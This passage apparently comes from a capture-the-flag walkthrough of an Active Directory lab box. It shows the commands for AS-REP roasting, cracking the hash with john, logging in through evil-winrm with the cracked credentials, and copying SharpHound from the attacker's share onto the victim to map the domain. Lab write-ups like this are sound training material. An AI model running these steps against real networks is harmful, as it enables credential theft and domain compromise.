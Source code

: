 ```
GetNPUsers.py -format john -no-pass -k -usersfile users -dc-ip 10.10.10.161 HTB.LOCAL/ 
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt 
ruby evil-winrm.rb -i 10.10.10.161 -u svc-alfresco -p s3rvice
```

###For this article, we will use BloodHound to map the whole environment. For that, we first will upload SharpHound to the victim machine.
```
<<Invoke-BloodHound -CollectionMethod All>>
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents\PowerSploit\Recon\network>  copy //10.10.16.228/kali/enumeration/nmapAutomator/10.10.10.161/SharpHound.ps1 .
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents\PowerSploit\Recon\network> . .\SharpHound.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents\PowerSploit\Recon\network> Invoke-BloodHound -CollectionMethod All*Evil-WinRM* PS C:\Users\svc-alfresco\Documents\PowerSploit\Recon\network> 

```

